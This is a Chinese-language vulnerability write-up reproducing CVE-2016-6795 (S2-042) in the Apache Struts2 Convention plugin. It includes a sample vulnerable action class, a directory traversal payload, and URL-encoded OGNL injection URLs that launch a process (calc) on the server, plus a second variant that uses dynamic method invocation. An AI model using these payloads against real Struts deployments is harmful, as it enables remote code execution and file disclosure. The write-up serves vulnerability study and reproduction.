 # （CVE-2016-6795）s2-042

## 一、漏洞简介

在进行struts2开发时，需要在配置文件(struts.xml)中写一个个action，和对应返回结果的result(可以理解为前端返回的jsp文件)。
但是，写的action多了，配置起来就显得特别繁琐了。struts2 Convention插件可以完全抛弃配置，也就是约定优于配置
通过这个插件来实现目录的遍历

## 二、漏洞影响

Struts 2.3.20 - Struts 2.3.31

## 三、复现过程

1. 测试环境搭建

* **(1)**struts版本: struts2.3.24.1

* **(2)**convention插件版本: struts2-convention-plugin-2.3.24.1

将`struts2-convention-plugin-2.3.24.1.jar`复制到`/WEB-INF/lib`目录下。

1. 样例代码

新建一个GoAction类，放在`action`包下(`convention`插件的默认约定位置)。

```java
package action;

import com.opensymphony.xwork2.ActionSupport;

public class GoAction extends ActionSupport {

    private String go;
    private String methodToOGNL;

    public String execute(){
        return go;  //方法的返回值，即为resultCode
    }

    public String getGo() {
        return go;
    }
    public void setGo(String go) {
        this.go = go;
    }
    public String getMethodToOGNL() {
        return methodToOGNL;
    }
    public void setMethodToOGNL(String methodToOGNL) {
        this.methodToOGNL = methodToOGNL;
    }        
}

```

在`/WEB-INF/content`目录下，新建一个`admin.jsp`:

```
<body>      Hello Admin~~ <br>
  </body> 

```

1. 攻击和调试分析

上述代码目的是，让`GoAction`起到一个跳转功能。

当`admin用户`经过验证，需要跳转到`jsp`页面时。 直接访问`url`:`/go?go=admin`，此时的`resultCode`为`admin`。 通过`convention`插件，会在`/WEB-INF/content`找到`admin.jsp`，返回给用户。

![1.png](images/f862733576694b19bf1a5ebb883cb1f4.png)
此时，我们就可以通过`go`参数来控制`resultCode`。

**(1) 遍历目录读取文件**

不防先试试跨目录。测试Payload为:

```
http://baidu.com:8080/MyStruts2Test/go?go=../content/admin  

```

这样也成功找到了`admin.jsp`。

然后，在`/WEB-INF/`下新建一个`hack.jsp文件`。简单的跨目录读取成功:

![1.png](images/f328cf65292c441bad7bb27d747de11d.png)
**(2)执行任意代码**

在补丁分析时，我们看到修补了一个`Result`执行命令。于是，我们可以在`resultCode`中嵌入`ognl`代码试试~ 我们最后要找到`admin.jsp`文件，于是在路径中嵌入了如下Payload:

```
http://www.baidu.com:8080/MyStruts2Test/go?go=%24%7B%23_memberAccess%5B%22excludedClasses%22%5D%3D%7B1%7D%2Cnew%20java.lang.ProcessBuilder%28%27calc%27%29.start%28%29%7D%2f..%2fadmin

```

打断点分析可以看到:

![1.png](images/c9049c5f62a74f8c922a293f3d3b45a2.png)

找到`admin.jsp`文件后的Result为`org.apache.struts2.dispatcher.ServletDispatcherResult`对象，并且`parse`属性为true。`location`属性中带有OGNL语句，和S2-016漏洞一样，成功运行植入的代码，弹出计算器:

![2.png](images/7c9ab4df0cd048b18733233d0d43f3d1.png)

**(3)另一种控制`resultCode`方法**

可能注意到了`methodToOGNL`这个变量没有用，当我们可以选择调用`action`的某个方法时，比如还有最近出现的`rest`插件或者打开`动态方法调用`：

```
<constant name="struts.enable.DynamicMethodInvocation" value="true" />

```

于是就有了如下payload:

```bash
http://www.baidu.com:8080/MyStruts2Test/go!getMethodToOGNL?methodToOGNL=%24%7B%23_memberAccess%5B%22excludedClasses%22%5D%3D%7B1%7D%2Cnew%20java.lang.ProcessBuilder%28%27calc%27%29.start%28%29%7D%2f..%2fadmin

```

我调用了`getMethodToOGNL`方法，返回`methodToOGNL`变量的值。就能简接控制`resultCode`了。当然成功弹出计算器。这种情况，相比前面的情况。恐怕就要普遍些了吧~

**条件: 只需`action`中有个`String`变量即可。**

